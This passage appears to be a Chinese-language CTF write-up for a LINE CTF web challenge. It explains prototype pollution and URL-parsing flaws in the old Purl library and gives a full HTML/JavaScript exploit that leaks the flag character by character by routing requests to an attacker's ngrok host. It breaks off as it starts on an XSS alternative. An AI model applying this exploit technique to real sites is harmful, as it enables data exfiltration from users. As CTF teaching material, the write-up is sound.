 這個程式碼就比較長一點了，不過在做的事情大概就是先讀取 config，然後把 body 跟 head 的內容都傳給剛剛的 worker 去做取代，取代完之後再放回畫面上，然後有找到符合的內容，回報給 `n.data.attr.path + /alert` 這個位置。

上面那一大串如果搜尋一下，會發現是來自於 [Purl](https://github.com/allmarkedup/purl) 這個停止維護很久的 library，除了有 prototype pollution 的問題以外，對於網址的 parse 也是漏洞百出。

首先是 prototype pollution，我們只要污染 config 就可以控制 `localStorage.config` 屬性，傳入我們想要的 regexp，原本想的是可以弄個 ReDos 之類的再看怎麼樣去偵測時間，但後來發現 `n.data.attr.path` 這個也是可以控制的。

舉例來說，`http://web:8000/#@acabc//8cae-ip.ngrok.io` 這個網址的 path 會被解析成 `//8cae-ip.ngrok.io`，所以可以把 request 傳到我們這裡來。

再搭配前面講的 config，就可以知道哪個 regexp 有配對到。

``` html
<script>
  const domain = '8cae.ngrok.io'
  const base = 'http://' + domain
  function getUrl(flag) {
    return `http://web:8000/#@acabc//${domain}/${flag}?q[__proto__][config]={"regex":"${flag}"}`
  }

  function report(msg) {
    fetch(base + '?msg=' + msg)
  }

  function visit(str) {
    var w = window.open(getUrl(str))
    setTimeout(() => {
      w.close()
    }, 2000)
  }

  let flag = 'LINECTF{'
  const charset = '0123456789abcdef'
  const sleep = ms => new Promise(r => setTimeout(r, ms))
  async function main() {

    for(let i=0; i<32; i++) {
      for(let c of charset) {
        const str = flag + ".".repeat(i) + c
        visit(str)
        await sleep(100)
      }
    }
  }

  main()
  

</script>
```

除了這種解法以外，另一種更猛的是直接利用原本的功能做出 XSS，每一個 note 的結構是這樣：
